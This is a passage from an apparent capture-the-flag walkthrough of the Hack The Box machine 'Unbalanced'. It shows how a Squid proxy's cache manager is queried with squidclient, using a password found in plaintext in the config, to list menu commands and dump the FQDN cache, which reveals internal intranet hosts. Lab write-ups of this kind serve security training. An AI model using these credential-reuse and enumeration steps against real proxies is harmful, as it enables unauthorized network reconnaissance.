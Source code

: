 according to the ACL `http_access`, we are allowed to access the class B local subnet `172.16.0.0/12` and the subdomain `intranet.unbalanced.htb`, which we can add to `/etc/hosts`

while googling, i stumbled upon this article `https://wiki.squid-cache.org/Features/CacheManager` and found this:
```
http://mycache.example.com:3128/squid-internal-mgr/info
```
so lets try to access the page on the newly found subdomain

i receive a "URL could not be retrieved" error, which means there may be a potential vector we can take advantage of

since the config file contains a plaintext password for accessing the squid cache manager, we will start by using `squidclient` (preinstalled on Kali) and the menu command to list its contents

```bash
> squidclient -h 10.10.10.200 -w 'T******1' mgr:menu

HTTP/1.1 200 OK
Server: squid/4.6
Mime-Version: 1.0
Date: Sun, 09 Aug 2020 19:37:12 GMT
Content-Type: text/plain;charset=utf-8
Expires: Sun, 09 Aug 2020 19:37:12 GMT
Last-Modified: Sun, 09 Aug 2020 19:37:12 GMT
X-Cache: MISS from unbalanced
X-Cache-Lookup: MISS from unbalanced:3128
Via: 1.1 unbalanced (squid/4.6)
Connection: close

 index                  Cache Manager Interface                 disabled
 menu                   Cache Manager Menu                      protected
 offline_toggle         Toggle offline_mode setting             disabled
 shutdown               Shut Down the Squid Process             disabled
 reconfigure            Reconfigure Squid                       disabled
 rotate                 Rotate Squid Logs                       disabled
 pconn                  Persistent Connection Utilization Histograms    protected
 mem                    Memory Utilization                      protected
 diskd                  DISKD Stats                             protected
 squidaio_counts        Async IO Function Counters              disabled
 config                 Current Squid Configuration             disabled
 client_list            Cache Client List                       disabled
 comm_epoll_incoming    comm_incoming() stats                   disabled
 ipcache                IP Cache Stats and Contents             disabled
 fqdncache              FQDN Cache Stats and Contents           protected
```
focusing on the `protected` commands as listed in `squid.conf`, the `fqdncache` seems the most logical one to start with

we can by slightly altering the above command

```bash
> squidclient -h 10.10.10.200 -w 'T******1' mgr:fqdncache

FQDN Cache Contents:

Address                                       Flg TTL Cnt Hostnames
127.0.1.1                                       H -001   2 unbalanced.htb unbalanced
::1                                             H -001   3 localhost ip6-localhost ip6-loopback
172.31.179.2                                    H -001   1 intranet-host2.unbalanced.htb
172.31.179.3                                    H -001   1 intranet-host3.unbalanced.htb
10.10.14.43                                    N  035   0
127.0.0.1                                       H -001   1 localhost
172.17.0.1                                      H -001   1 intranet.unbalanced.htb
ff02::1                                         H -001   1 ip6-allnodes
ff02::2                                         H -001   1 ip6-allrouters
```